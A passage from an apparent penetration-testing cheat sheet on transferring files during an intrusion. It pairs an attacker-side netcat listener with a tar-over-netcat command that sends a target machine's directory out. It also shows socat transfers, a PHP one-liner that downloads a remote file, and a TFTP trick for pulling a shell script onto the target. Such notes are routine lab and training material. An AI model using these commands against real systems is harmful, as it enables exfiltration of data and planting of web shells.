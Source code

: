 On attacking machine we reverse the process

```text
nc -nvlp 443 | tar -zxv1
```

On target machine:

```text
tar -zcvf - /path/ | /bin/nc -w 5 10.10.10.130 443
```

## Socat

Server receiving file:

```text
server$ socat -u TCP-LISTEN:9876,reuseaddr OPEN:out.txt,creat && cat out.txt
client$ socat -u FILE:test.txt TCP:127.0.0.1:9876
```

Server sending file:

```text
server$ socat -u FILE:test.dat TCP-LISTEN:9876,reuseaddr
client$ socat -u TCP:127.0.0.1:9876 OPEN:out.dat,creat
```

## PHP

```text
echo "<?php file_put_contents('nameOfFile', fopen('http://192.168.1.102/file', 'r')); ?>" > down2.php
```

## FTP

If you have access to a ftp-client to can of course just use that. Remember, if you are uploading binaries you must use binary mode, otherwise the binary will become corrupted!!!

## TFTP

On some rare machine we do not have access to `nc` and `wget`, or `curl`. But we might have access to `tftp`. Some versions of `tftp` are run interactively, like this:

```text
$ tftp 192.168.0.101
tftp> get myfile.txt
```

If we can't run it interactively, for whatever reason, we can do this trick:

```text
tftp 191.168.0.101 <<< "get shell5555.php shell5555.php"
```

## SSH
